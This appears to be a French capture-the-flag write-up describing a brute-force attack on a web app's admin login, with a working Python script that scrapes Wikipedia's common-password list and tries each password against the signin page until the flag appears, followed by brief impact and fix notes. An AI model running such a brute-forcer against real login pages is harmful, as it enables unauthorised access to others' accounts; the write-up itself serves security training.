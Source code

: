 # README : Forçage de l'authentification du compte admin

## Description

Cette brèche met en évidence une vulnérabilité dans la gestion des mots de passe et l'authentification sur une application web. Elle utilise une approche non éthique mais démonstrative pour essayer de compromettre le compte admin.

## Fonctionnement

- Accédez à la page : `http://X.X.X.X/?page=signin`
- Utilisez un script Python qui tente l'authentification du compte admin avec les mots de passe les plus courants trouvés sur Wikipedia:

```python
import requests
from bs4 import BeautifulSoup

url = "https://en.wikipedia.org/wiki/List_of_the_most_common_passwords"

response = requests.get(url)

if response.status_code == 200:
    unique_strings = set()
    soup = BeautifulSoup(response.content, 'html.parser')
    tables = soup.find_all('table', class_='wikitable')

    for table in tables:
        caption = table.find('caption') # Optional: Keep track of caption
        rows = table.find_all('tr')
        if caption: # Optional: Check if caption exists
            for row in rows:
                tds = row.find_all('td')
                if len(tds) >= 2:
                    for td in tds[1:]:
                        actual_td = td.get_text(strip=True)
                        if actual_td not in unique_strings:
                            print(f"Actual password: {actual_td}")
                            unique_strings.add(actual_td)
                            request_url = f"http://X.X.X.X/?page=signin&username=admin&password={actual_td}&Login=Login"
                            response = requests.get(request_url)
                            if 'flag' in response.text:
                                print(f"Found 'flag' with password: {actual_td}")
                                for line in response.text.splitlines():
                                    if 'flag' in line:
                                        print("Line containing 'flag':", line)
                                exit()

```

- Validez l'authenfication avec le mot de passe trouvé

## Impact

Cette approche peut permettre à un attaquant de :

- Tenter de compromettre des comptes admin par force brute
- Potentiellement obtenir accès non autorisé à l'application
- Exposer des informations sensibles si le système n'est pas correctement sécurisé

## Recommandations

Pour corriger cette vulnérabilité :
Implémenter une authentification robuste avec des mots de passe forts et uniques pour chaque compte.
